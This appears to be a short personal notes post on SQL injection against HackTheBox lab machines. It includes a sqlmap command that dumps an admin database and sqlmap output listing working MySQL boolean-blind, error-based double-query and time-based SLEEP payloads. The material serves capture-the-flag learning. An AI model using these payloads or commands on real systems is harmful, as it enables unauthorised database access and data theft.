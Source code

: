 ```yaml
---
layout: post
title: Complicated SQL Payloads
description: Complicated SQL Payloads
summary: Complicated SQL Payloads
tags: [sqli]
minute: 1
---
```

## HTB Europa - 302 Redirect
Successful SQL injection leads to 302 redirect.

![](/spindel/assets/Complicated%20SQL%20Payloads/A34CC184-43B7-4D71-A1CB-CA737FBB1CEE.png)

I was unable to enumerate database except by using sqlmap.

```bash
sqlmap --proxy=http://127.0.0.1:8080 -r req.txt --batch --dbms=mysql -p email --dump -D admin
```

## HTB Enterprise - Double Query Error-based Injection
```bash
[13:12:29] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: query (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (original value)
    Payload: query=(SELECT (CASE WHEN (7210=7210) THEN 1 ELSE (SELECT 5043 UNION SELECT 6730) END))

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: query=1 AND (SELECT 2881 FROM(SELECT COUNT(*),CONCAT(0x71626a6b71,(SELECT (ELT(2881=2881,1))),0x716b716b71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: query=1 AND (SELECT 1004 FROM (SELECT(SLEEP(5)))OoNX)
---
[13:12:29] [INFO] the back-end DBMS is MySQL
```

* [HTB: Enterprise | 0xdf hacks stuff - Double Query Error-based Injection](https://0xdf.gitlab.io/2021/06/16/htb-enterprise.html#beyond-root---error-based-sqli)
* [HTB Enterprise by Ippsec](https://www.youtube.com/watch?v=NWVJ2b0D1r8&t=6000s)

## HTB Unattended nested SQL Injection
This box is tough, I haven't understand fully [this](https://0xdf.gitlab.io/2019/08/24/htb-unattended.html#shell-as-www-data) technique but I will put it here for reference.
